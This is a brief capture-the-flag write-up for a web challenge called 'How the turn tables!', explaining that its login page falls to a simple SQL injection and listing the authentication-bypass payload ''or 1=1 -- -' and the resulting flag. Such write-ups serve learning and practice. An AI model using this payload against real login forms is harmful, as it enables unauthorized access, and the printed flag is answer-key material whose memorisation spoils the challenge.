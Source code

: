 
# Web: How the turn tables!

Author: [some1hing](https://github.com/SOME-1HING/)
<br>

**Points**:  150
**Hint:** In the digital domain where queries play, what's the secret to sway databases your way?

**Challenge description:**
```
The cyber rangers have their new 10x sysadmin, geared up for action. But, will the tables turn?

http://glitchctf.games:64100/
```

## Solve

Visit the login page bypass the login using simple Auth based sqli.

```
'or 1=1 -- -
```

flag is shown in the dashboard.

#### Flag:
```
GLITCH{MayTheF0rceB3W1thY0u}
```


